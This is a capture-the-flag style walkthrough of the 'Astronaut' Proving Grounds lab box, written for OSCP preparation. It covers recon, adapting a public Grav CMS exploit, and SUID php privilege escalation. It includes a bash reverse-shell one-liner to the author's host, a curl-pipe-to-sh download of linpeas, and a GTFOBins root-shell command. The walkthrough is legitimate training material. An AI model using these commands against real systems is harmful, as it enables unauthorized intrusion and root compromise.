 ```yaml
---
title: Astronaut
date: 2023-12-22
tags:
  - OSCP
  - PG Practice
  - TJ Null
  - Linux
  - Easy
---
```


![info](./info.png)

# Recon
![info-comm](./info-comm.png)
This machine has a Linux OS and is rated intermediate by the community.

Remember to make an entry for the IP in `/etc/hosts` file. My entry looks like:
```
192.168.188.12  astronaut.offsec
```
## Nmap
``` bash
nmap -p- --open -sC -sV astronaut.offsec
```
- `-p-`: Scans all 65535 ports on the target system. The hyphen signifies scanning all possible ports.
- `--open`: Displays only open ports, indicating which services are active and accessible.
- `-sC`: Performs default script scanning, which runs a set of scripts to gather additional information about the target.
- `-sV`: Enables version detection, providing information about the versions of services running on open ports.
![nmap](./nmap.png)

The nmap scan discovered a volume with `grav-admin` folder.
- Browsing to this folder in the browser `http://astronaut.offsec/grav-admin/` shows a default installation page

## Gobuster
``` bash
gobuster dir -u astronaut.offsec/grav-admin/ -w /usr/share/seclists/Discovery/Web-Content/common.txt 
```
![gobuster](./gobuster.png)
The gobuster scan found an admin panel at `/admin/` and many other endpoints.

## Searchsploit
As the website is built with grav, we can search for known exploits using searchsploit.
``` bash
searchsploit grav
``` 
![searchsploit](./searchsploit.png)
I  like to look at python scripts first, so the first script I will look at is the Arbitrary YAML Write/Update script as that one is **unauthenticated**.

# Initial Access
## Arbitrary YAML Write/Update
First, download the unauthenticated script by using `searchsploit -m php/webapps/49973.py`
- looking at the code, we can see that the target is set to a variable
- change this target to `http://astronaut.offsec/grav-admin`
  - this is because the URL `http://astronaut.offsec` only has a directory named grav-admin, so we must specify that directory for the exploit
- the script says to run the following command and replace the output with the base64 encoded value in the script
![scriptChange](./scriptChange.png)

For the command, you will need to replace the IP and port to the listening host (Kali IP and Port)
- I will be using the command `nc -lnvp 4444` to start a listener on my kali host with IP `192.168.45.220`
- So, the command I will run is `echo -ne "bash -i >& /dev/tcp/192.168.45.220/4444 0>&1" | base64 -w0`
- then, replace the contents in the designated `base64_decode()` function

Start a netcat listener and run the script using `python3 49973.py`
- after a couple seconds, a shell is generated with the user
![shell](./shell.png)

# Privilege Escalation
## Manual commands
``` bash
find / -type f -perm -4001 -exec ls -la {} \; 2> /dev/null
```

### Explanation:
`find / -type f -perm -4001`:
find: Initiates the find command for searching files and directories.
`/`: Specifies the starting directory for the search (root directory in this case).
`-type f`: Specifies that only files (not directories) should be considered in the search.
`-perm -4001`: Searches for files with the SUID bit set. The SUID bit, when set, allows a file to be executed with the permissions of its owner.

`-exec ls -la {} \;`:
`-exec`: Executes a command for each matched file. The command is
  `ls -la {}`: Uses the `ls` command to list information about the found files. The `-la` option is used to make a list showing all files and details.
  `{}`: is replaced by the matched file for each iteration.
  `\;`: Marks the end of the -exec command.

`2> /dev/null`:
`2>`: Redirects standard error (stderr) to a specified location.
`/dev/null`: A special file in Unix-like operating systems that discards any data written to it.

![manual-enum](./manual-enum.png)

## Linpeas
To assess the attack surface further, run `linpeas.sh` on the target:
- run a python http server in the directory with the `linpeas.sh` file with `python3 -m http.server 80`
- then use the `curl` command with `sh` to run the script on the target machine
- the IP specified is downloading from my Kali host
``` bash
curl http://192.168.45.220/linpeas.sh | sh
```

### Linpeas Results
The linpeas results showed php7.4 binary file in the directory `/usr/bin/php7.4` that has an unknown SUID binary. The output is shown below
```
-rwsr-xr-x 1 root root 4.6M Feb 23  2023 /usr/bin/php7.4 (Unknown SUID binary!)
```

We can confirm these findings with the manual enumeration commands we used. We did indeed find a php7.4 file.
- Using this information we can try to find privilege escalation for PHP SUID in [GTFOBins](https://gtfobins.github.io/gtfobins/php/)

GTFOBins uses the following command, the previous parts can be ignored as we know the version number of php.
``` bash
./php -r "pcntl_exec('/bin/sh', ['-p']);"
```

In order for this command to fit our context, we would change the running script to 
``` bash
/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
```
- the flag is located in the `/root` folder

# Summary
The "Astronaut" box in Proving Grounds Practice involves a comprehensive penetration testing approach. 
Initial reconnaissance using Nmap uncovers a Grav CMS installation with potential vulnerabilities. 
Gobuster identifies an admin panel, while Searchsploit yields an unauthenticated YAML Write/Update script which needs to be adapted. 
Manual enumeration reveals files with the SUID bit set, further explored with LinPEAS, confirming an unknown SUID binary, `/usr/bin/php7.4`. 
Exploiting this binary using GTFOBins facilitates privilege escalation, granting access to the /root folder where the flag is found. 
This walkthrough provides practical insights into various stages of a penetration test, offering a valuable learning experience for OSCP preparation.

Join me for the next machine soon for more exciting challenges and security insights!

+10 points

